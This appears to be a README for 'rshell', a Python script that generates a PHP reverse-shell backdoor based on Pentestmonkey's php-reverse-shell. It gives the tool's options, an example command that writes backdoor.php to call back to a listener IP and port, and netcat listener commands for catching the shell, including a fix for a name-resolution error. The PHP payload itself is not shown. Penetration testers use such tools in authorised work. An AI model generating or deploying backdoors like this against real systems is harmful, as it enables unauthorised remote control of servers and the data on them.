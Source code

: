 # rshell  

Generate php code for reverse shell backdoor. The generated code is based on [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) reverse php shell. 

## Usage : 

```shell  
$ ./rshell.py -h
usage: rshell.py [-h] -ip IP -p PORT [-o OUTPUT]

optional arguments:
  -h, --help            show this help message and exit
  -ip IP                IP Address of Local Listener
  -p PORT, --port PORT  Port number of Local Listener
  -o OUTPUT, --output OUTPUT
                        Save the generated payload into a file
```  

Example :  

```
./rshell.py -ip 192.168.1.10 -p 8080 -o backdoor.php
```

### Notes 

After deployment, you can start listener with nc 

```shell  
nc -lvvp PORT_NUMBER
```  

If netcat/nc shows below error 

```shell  
nc: getnameinfo: Temporary failure in name resolution
```  

Then add `-n` flag on the listener command.(-n:numeric-only IP addresses, no DNS) 

```shell  
nc -nlvvp PORT_NUMBER
```  
